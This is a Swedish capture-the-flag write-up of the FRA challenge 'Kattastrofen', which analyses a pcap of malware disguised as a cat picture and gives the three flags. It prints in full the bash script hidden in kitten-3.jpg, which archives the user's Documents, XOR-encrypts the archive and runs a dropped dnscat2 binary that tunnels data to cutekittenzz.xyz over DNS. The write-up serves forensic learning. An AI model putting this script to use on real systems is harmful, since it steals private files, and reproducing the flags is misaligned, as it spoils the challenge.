


# FRA - Kattastrofen

Här är en writeup om FRA:s utmaning Kattastrofen. Jag löste den tillsammans med min vapendragare **onind00**. Utmaningen hittas på [challenge.fra.se](https://challenge.fra.se)

## Inledning

Scenariot var att en statstjänsteman på en skyddsvärd myndighet var väldigt svag för kattbilder. Dennes jakt på dessa bilder hade gjort att hen hade råkat ladda ner något som inte var bra, antagligen skadlig kod, som exfiltrerade topphemlig data. Vår uppgift var att analysera en pcap-fil för att försöka ta reda på vad som hänt.

## Första flaggan

Vi inledde med att göra en översiktlig analys av nätverkstrafiken. Eftersom användaren hade varit på jakt efter kattbilder och laddat ner såna var vi extra uppmärksamma på all HTTP-trafik. I Wireshark tog vi **File > Export Objects > HTTP...** och kunde då se hela filstrukturen för hemsidan, inklusive html, css, bilder och en zip-fil.

Vi öppnade html-filen i webbläsaren för att se hur det såg ut - då såg vi en text där det stod  `password is 'hunter2'`. Vi extraherade zip-filen, och som vi misstänkte så var den lösenordsskyddad. Vi uppgav `hunter2` och kunde extrahera filen. Där såg vi en rad jpg-filer och en textfil som hette *flag*. Vi öppnade den och kunde läsa första flaggan.

<details>
  <summary><b>Klicka för att se första flaggan</b></summary>

  `flagga1{klassiska_lösenord_för_100}`
</details> 

## Andra flaggan

Den första flaggan hade varit väldigt straight forward att hitta - vi gjorde bara de naturliga stegen. Att hitta andra flaggan skulle visa sig vara, låt säga, något svårare...

Vi visste baserat på ploten att personen hade laddat ner bilder och då hade något hänt. Det var alltså efter nedladdningen av zip-filen som data hade exfiltrerats från användarens system. Vid en snabb blick av de nedladdade jpg-filerna så var det en som stack ut, `kitten-3.jpg`, som dels inte hade genererat en thumbnail, dels var betydligt större än de övriga. Vi misstänkte att den innehöll något viktigt.

Jag körde `file kitten-3.jpg` och fick till svar att det var ett bash-script. Vid en närmare titt på `kitten-3.jpg` i en textredigerare kunde vi se själva scriptet. Efter att ha analyserat scriptet, både manuellt och med hjälp av AI, kunde vi konstatera att det i grova drag gjorde följande:

- När användaren öppnade `kitten-3.jpg` så visades istället `kitten-9.jpg` och processen kördes i bakgrunden.
- Samlade in allt som fanns i `/home/users/Documents/` och sparade detta till en tar-fil i `/tmp/exfil.tar`
- Skrev ytterligare en fil som innehöll metadata, bland annat filstorlek på tar-filen, datum för skapandet och tar-filens md5 hash. Denna sparades som `/tmp/exfil.dat`
- Konverterar och XOR-krypterar tar-filen med nyckeln som anges i början av scriptet.
- Outputen från XOR-funktionen encode:ades sedan till base64.

Efter stegen ovan så fanns ett steg i scriptet som vi inte förstod till hundra procent vid vår första analys. Baserat på trafiken i pcap-filen kunde vi dra slutsatsen att denna data sedan hade skickats iväg till `cutekittenzz.xyz` över DNS port 53, något som kallas DNS tunneling. Ca 94% av alla paket i pcap-filen använde just port 53, så det var ganska uppenbart. Vid en närmare analys av scriptet något senare gjorde att vi kunde slå fast det med säkerhet.

Scriptet innehöll även en stor blob i base64. Det skulle visa sig att denna base64 dolde binär kod som kördes när användaren öppnade `kitten-3.jpg`. Scriptet gjorde nämligen:

- Decode:ade bloben med base64 (som bestod av binär kod) och skrev det till filen `mjau`.
- Gjorde filen `mjau` körbar genom `chmod +x`
- Körde filen genom `./mjau` och använde `cutekittenzz.xyz` som argument.
  
Vid en närmare titt på vad den binära koden gjorde så var det `dnscat2` som tog hand om själva överföringen via DNS.

#### Här är scriptet

```bash
#!/bin/bash

D=$(dirname "$0")
eog "$D/kitten-9.jpg" &

key="P1yq59jxFvIGgyebMmzgQIx6f/ng0fmK+N5+kDdBcgU="
echo $key |base64 -d > /tmp/key
tar cf - $HOME/Documents > /tmp/exfil.tar
echo "EXFIL $(date)" > /tmp/exfil.dat
echo "SIZE: $(stat -c%s /tmp/exfil.tar)" >> /tmp/exfil.dat
md5sum /tmp/exfil.tar >> /tmp/exfil.dat
echo "BEGIN DATA" >> /tmp/exfil.dat
paste <(od -An -vtu1 -w1 /tmp/exfil.tar) <(while :; do od -An -vtu1 -w1 /tmp/key; done) \
  | LC_ALL=C awk 'NF!=2{exit}; {printf "%c", xor($1, $2)}' | base64 >> /tmp/exfil.dat
echo "END DATA" >> /tmp/exfil.dat

base64 -d > mjau << 'EOM'
f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAAgCkAAAAAAABAAAAAAAAAACgrBQAAAAAAAAAAAEAAOAANAEAAJgAlAAYAAAAE
...
AAAAAAAAAAARAAAAAwAAAAAAAAAAAAAAAAAAAAAAAACwKQUAAAAAAHUBAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAA
EOM
chmod +x mjau
./mjau cutekittenzz.xyz
```

Vi kunde se alla paket som skickades via DNS, men vi hade svårt att tyda vad de innhöll. Varje paket hade ungefär följande format `e0d8012b173d8aec7a.cutekittenzz.xyz`. Skulle visa sig att strängen som fungerade som subdomän innhöll själva datan. Nu gällde det alltså för oss att reverse engineer:a exfiltrations-processen. Detta genom att:

- Förstå vad datan hade för format när den skickades (misstänker att det var hex)
- Bygga ihop datan från alla paket i rätt ordning.
- Decode:a allt i rätt steg för att sedan kunna reverse:a XOR-krypteringen
- Få en fungerande tar-fil innehållandes datan som exfiltrerats.

Det skulle visa sig vara enklare sagt än gjort. Med hjälp av AI fick vi en mängd olika script att köra för att extrahera, städa upp och konvertera datan i jakt på vår fil, men det slutade ständigt med att vi fick ut filer som inte var i närheten av att likna en tar-fil.

Det slutade med att jag gav AI hela pcap-filen, förklarade scenariot, gav den scriptet från `kitten-3.jpg` och bad om en analys och att jag ville att den skulle extrahera och bygga ihop tar-filen.

Jag såg hur AI:n arbetade flitigt och testade många av de metoder som vi själva hade provat. Till slut hittade AI rätt metod och levererade en fullt fungerande tar-fil.

Jag packade upp tar-filen som mycket riktigt innehöll mapp-strukturen för användarens hem-katalog, och i `/home/user/Documents` fanns filen `topphemligt.pdf`. Den topphemliga informationen var ännu en kattbild med den andra flaggan skriven mitt i bilden. 

<details>
  <summary><b>Klicka för att se andra flaggan</b></summary>
  
  `flagga2{every_day_is_caturday}`
</details>

## Tredje flaggan

Vi visste från uppgiften att det skulle finnas totalt tre flaggor, så nu var det dags att hitta den sista. Den första flaggan hade vi mer eller mindre fått gratis - det var bara att göra de naturliga stegen så fick vi den. Andra flaggan hade som sagt krävt en hel del jobb att hitta, så var kunde den tredje finnas?

Jag hade två teorier - antingen att den kunde hittas på något annat ställe i nätverkstrafiken, kanske att den hade skickats med något protokoll som det inte fanns så många av. Den andra teorin var att den var inbakad i den binära koden som fanns i skriptet, det som utgjorde `dnscat2`.

Efter att ha skummat igenom övrig nätverkstrafik insåg jag ganska snabbt att det inte var något som stack ut, den mesta trafiken utöver DNS-paketen var TCP-trafik, men det var bara vanliga paket som representerade handskakningarna (three-way handshake) utan någon intressant data. Därför dök jag in i scriptet. Jag tog hjälp av AI för att göra koden läsbar, men det visade sig att det endast var just `dnscat2`, inget mer av intresse att hitta där.

Det var då **onind00** knäckte det, han hade tagit en närmare titt på pdf-filen som innehöll andra flaggan. Innan dess hade jag bara kört **exiftool** på pdf-filen, men den innehöll ingen utstickande metadata, så jag hade gått vidare. Jag skulle ha tittat närmare...

Genom att köra `strings topphemligt.pdf | less` kunde vi se att pdf-filen innehöll något spännande som inte brukar finnas i en vanlig pdf. Det var en rad som inleddes med `javascript` följt av en lång blob som till synes såg ut som hex. Det som gjorde mig lite fundersam var dock att det i princip var samma tecken som upprepade sig gång på gång



Jag decode:ade en liten snutt av hex-strängen och blev varse att det var kod skriven i **JSFuck** - en obskyr variant av JS vars syntax endast består av sex olika tecken. Det var därför det var så många upprepningar!

Jag kopierade hex-bloben och sparade till en egen fil, sedan körde jag kommandot `xxd -r -p hex.txt > jsfuck.txt` för att decode:a hela hex-strängen. Jag konverterade sedan JSFuck till vanlig JS med hjälp av sajten [https://enkhee-osiris.github.io/Decoder-JSFuck/](https://enkhee-osiris.github.io/Decoder-JSFuck/) och fick ut följande:

```javascript
const data = [0n, 16777216n, 963362762567186450219276n, 1227815285621149424943362n, 4251180420234710034485506n, 1227908978741191150735617n, 1228942000327703451209986n, 1229089574843243084713986n, 1229089574913611821027586n, 1276163323341699551654156n, 1170935903267323904n, 16393102643729268736n]; 

if (0.1 + 0.2 == 0.3) {
  let str = "";
  for (let x of data) {
    str += x.toString(2).padStart(106, '0') + "\n";   
  }
  app.alert(str.replaceAll("0", " ").replaceAll("1", "."));
}
```

Jag kunde snabbt avgöra att det inte skulle vara någon risk att köra koden - vad den i princip gjorde var att:

- loopa över en array som innehöll bigint-tal
- konvertera varje bigint-tal till binärt
- lägga till varje binära sträng till en ny sträng i variabeln `str` och avsluta med en newline
- lägga till padding så att alla rader blir lika långa
- byta ut 0 till mellanslag
- byta ut 1 till punkt
- skriva ut den nya strängen i en alert-funktion

Det luriga var att allt var wrappat i ett if-statement som till synes såg ut att reslutera i **true**, men vid en närmare granskning resulterar den i **false** på grund av hur JS hanterar floating points.

Jag skrev om if-statement så att det istället stod `if (true)` och ändrade `app.alert()` till `console.log()` och körde koden i konsolen i webbläsaren. Vad som hände var att flagga 3 skrevs ut som ASCII art! Så här vackert blev det:

<details>
  <summary><b>Klicka för att se tredje flaggan</b></summary>
  
  
</details><br>

Inte konstigt att det var svårt att hitta flagga 3 med grep...

## Slutord

En riktigt kul utmaning från FRA som verkligen fick mig att behöva tänka till och ta flagg-letandet till nästa nivå. Jag känner mig nöjd över att vi hittade flagga 1 och 3 relativt enkelt, men jag undrar fortfarande om/hur vi skulle kunna ha hittat flagga 2 på manuellt väg - tar-filen var minst sagt ordentligt dold i dns-trafiken.

Jag uppskattar denna typ av utmaningar för att jag bygger på mina kunskaper i Wireshark, men även mina kunskaper att läsa och tyda kod, något jag kan ha bra nytta av i arbetslivet (och framtida CTF:er).

Tack för att du läste, och happy hacking!